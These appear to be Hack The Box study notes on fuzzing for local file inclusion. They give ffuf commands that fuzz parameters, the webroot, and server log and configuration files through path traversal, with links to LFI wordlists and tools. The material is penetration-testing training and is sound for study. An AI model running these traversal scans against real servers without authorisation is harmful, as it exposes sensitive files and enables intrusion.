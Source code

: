 ## Fuzzing Parameters

Fuzz for common non publicly exposed parameters:
```shell-session
Wildland4958@htb[/htb]$ ffuf -w /SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs <page size to filter>
```

**Tip:** For a more precise scan, we can limit our scan to the most popular LFI parameters found on this [link](https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters).

## LFI Wordlists

There are a number of [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) we can use for this scan. A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) (Also good for payloads to find server files).

Fuzz a parameter:
```shell-session
Wildland4958@htb[/htb]$ ffuf -w <wordlist location>:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?<parameter>=FUZZ' -fs <page size to filter>
```

## Fuzzing Server Files

### Sever Webroot

Fuzz for the web root, which can let you specify absolute path:
```shell-session
Wildland4958@htb[/htb]$ ffuf -w /SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs <page size to filter>
```

### Server Logs/Configurations

[wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows) Will give as more precise results than [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt).

Fuzz for log and configuration files:
```shell-session
Wildland4958@htb[/htb]$ ffuf -w <wordlist>:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs <page size to filter>
```

## LFI Tools

- [LFISuite](https://github.com/D35m0nd142/LFISuite)
- [LFiFreak](https://github.com/OsandaMalith/LFiFreak)
- [liffy](https://github.com/mzfr/liffy)
